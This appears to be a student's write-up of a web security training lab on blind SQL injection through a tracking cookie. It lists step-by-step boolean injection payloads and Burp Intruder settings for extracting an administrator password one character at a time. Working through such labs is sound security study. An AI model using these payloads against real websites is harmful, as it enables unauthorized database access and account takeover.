







# Lab: Blind SQL injection with conditional responses
- We finished error based SQLi labs.
- In this lab we will start solving labs on Blind SQLi. 
- The website is using cookie to help in analytics, and to track if the user logged in before or not. 
- So the vulnerable parameter is : Tracking cookie
  - If you did not know this information, you should fuzz every possible parameter until you can find which one of them is vulnerable. 
- End goal: 
  - Enumerate the passwords of the users
  - login as admin.
  
# Analysis
1. First step is to confirm that the parameter is vulnerable to blind SQLi
2. Then imaging how the query looks like in the backend
   1. select tracking_id from tracking-table where tracking-id = the value stored.
3. so the goal now is to modify this tracking-id, and check if we see anything different in the website
4. Second step is to provide true statement, that you already know that it works well
   1. use the same cookie provided to you in the cookies along with 1=1.
      1.   select tracking_id from tracking-table where tracking-id = '1234'' and 1=1 --
   2. and check if you see Welcome back message
5. then provide false statement, and check if the welcome back message disappear. 
   1.    select tracking_id from tracking-table where tracking-id = '1234'' and 1=0 --
   2.    check if no welcome back message.
6. Confirm that we have users table, if true, we will see welcome back message
   1. select tracking_id from tracking-table where tracking-id = '1234'' and (select 'x' from users LIMIT 1)='x' --
      1. what we are doing here now is that we are searching for user x, and limit it to one entry only to avoid crash, and check if x = x, if true this will show the welcome back message.
      2. (select 'x' from users LIMIT 1) this will return to you the object that you selected, then you need to make it in for of boolean that is why we add ='x'
7. Now, we know that table users exist in the database, now we should ensure that user 'administrator' exist in the users table
   1. select tracking_id from tracking-table where tracking-id = '1234'' and (select username from users where username ='administrator')='administrator' --
   2. this should return true.
8. Now we will try to bruteforce his password character by character
   1. First we need to determine the length of the password using the LENGH > X and we keep iterating until we get error, then we know the length
      1. select tracking_id from tracking-table where tracking-id = '1234'' and (select username from users where username ='administrator' and LENGTH(password) > **1**)='administrator' --
      2. select tracking_id from tracking-table where tracking-id = '1234'' and (select username from users where username ='administrator' and LENGTH(password) > **2**)='administrator' --
      3. select tracking_id from tracking-table where tracking-id = '1234'' and (select username from users where username ='administrator' and LENGTH(password) > **3**)='administrator' --
   2. but instead of doing this manually, we can use the intruder, to brute force this.
      1. go to the intruder
      2. select the location you want and mark it with sniper
         1. 
      3. Select the payload type to numbers
      4. define the number range from 1 to 50 in sequential and the step is 1
      5. when you press start, after it finish the bruteforce steps, you will see the following results: 
         1. 
         2. by checking the length of the response, you will see that all responses having the same length, until we reach the 20 response. 
         3. this indicates that the password length is 20. 
   3. Then after that we will brute-force the password. 
      1. select tracking_id from tracking-table where tracking-id = '1234'' and (select substring(password,1,1) from users where username ='administrator')='a' --
         1. substring(column, start_idx, number_of_chars)
      2. and we should iterate all alphanumeric characters, and we may also include special characters. 
      3. so we can do this again using the intruder:
         1. 
         2. then definig the list as brute-forcer, and charset are alpha numeric.
      4. then we will start, until we can see different length in the response
         1. 
      5. but this will mean that you need to repeat this 20 times. 
      6. instead we can use the cluster bomb type, which allows you to brute force many parameters at the same time, which will be the position to be brute-forced, and the password character
         1. 
         2. now we define the values for index from 1 to 20 with type numbers
         3. then we define the values for the characters to be the alphanumeric characters with type bruteforcer with min and max length = 1. 
      7. Then after you get the results, order them by index, and filter on responses with keyword "Welcome"
         1.  
9. Since I do not have access to professional burpsuite, so I managed to write [multi-threading code](./multi_threading_code.py) to retrieve the admin password: 
   - 